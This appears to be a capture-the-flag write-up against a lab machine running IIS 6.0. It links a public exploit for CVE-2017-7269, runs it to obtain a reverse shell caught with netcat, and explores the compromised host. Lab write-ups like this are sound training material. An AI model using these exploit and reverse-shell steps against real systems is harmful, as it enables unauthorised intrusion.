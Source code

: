 The HTTP server appears to be `IIS 6.0`, that is vulnerable to *CVE-2017-7269*. 

Like in Granny, we can obtain a reverse shell exploiting the *CVE-2017-7269*. 
The exploit script can be found at this link -> <https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell>

&nbsp;

# Exploitation

Launching the exploit code with the requested arguments:

```
$ python cve-2017-7269.py 10.10.10.14 80 10.10.17.36 8989                               1 ⨯
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa...................
................................................
```

We get a shell as `NT AUTHORITY\Network Service`:

```
$ nc -nlvp 8989    
listening on [any] 8989 ...
connect to [10.10.17.36] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

Once we are inside the machine, a vald user is found - Harry - but the access to its folder is denied:

```
C:\Documents and Settings>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\Documents and Settings

04/12/2017  05:32 PM    <DIR>          .
04/12/2017  05:32 PM    <DIR>          ..
04/12/2017  05:12 PM    <DIR>          Administrator
04/12/2017  05:03 PM    <DIR>          All Users
04/12/2017  05:32 PM    <DIR>          Harry
               0 File(s)              0 bytes
               5 Dir(s)  18,091,188,224 bytes free

C:\Documents and Settings>cd Harry
cd Harry
Access is denied.
```
